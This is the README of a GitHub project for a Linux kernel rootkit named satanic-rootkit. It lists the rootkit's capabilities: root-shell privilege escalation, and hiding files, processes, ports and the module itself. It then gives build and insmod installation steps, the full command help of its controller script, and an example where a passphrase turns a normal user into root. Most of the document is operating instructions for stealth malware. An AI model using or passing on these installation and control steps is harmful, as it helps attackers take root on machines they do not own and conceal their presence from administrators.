 <div align="center">
  <img src="https://github.com/aesophor/satanic-rootkit/blob/master/.meta/banner.png">
  <b>CAUTION: Do NOT test this on physical machines!</b>
</div>

## Overview
* Local privilege escalation (grant root shell)
* File/directory hiding **by absolute path**
* Process hiding by PID
* Port hiding
* Hide the rootkit itself
* ...

## Usage
After inserting `satan.ko` into Linux kernel, one can use `satanist.py` to command the rootkit.
```
> ./satanist.py --help                 
usage: ./satanist.py <command> [argument]

--privesc <passphrase>     -- Spawn a root shell (bash).
--file-hide <path>         -- File/directory hiding by absolute path.
--file-unhide <path>       -- File/directory unhiding by absolute path.
--proc-hide <pid>          -- Process hiding by PID.
--proc-unhide <pid>        -- Process unhiding by PID.
--port-hide <port>         -- Port hiding by port number.
--port-unhide <port>       -- Port unhiding by port number.
--mod-hide                 -- Module hiding (hide itself from lsmod).
--mod-unhide               -- Module unhiding (unhide itself from lsmod).

-h --help                  -- Help message.
-v --version               -- Version info.
```

## Tested On
* Debian 9 stretch 4.9.0-11

## Build Requirements
* gcc
* GNU Make
* Linux headers

## Installation
1. Build kernel module.
```
$ git clone https://github.com/aesophor/satanic-rootkit.git
$ cd satanic-rootkit
$ make
```

2. Insert kernel module as root.
```
root# insmod satan.ko
```

3. Run satanist.py as normal user to command the rootkit.
```
$ ./satanist.py --help
```

4. Profit (?)
```
$ ./satanist.py --privesc 'Hail Satan!'
# whoami
root
```

## License
Available under [GPL-2.0 License](https://github.com/aesophor/satanic-rootkit/blob/master/LICENSE)
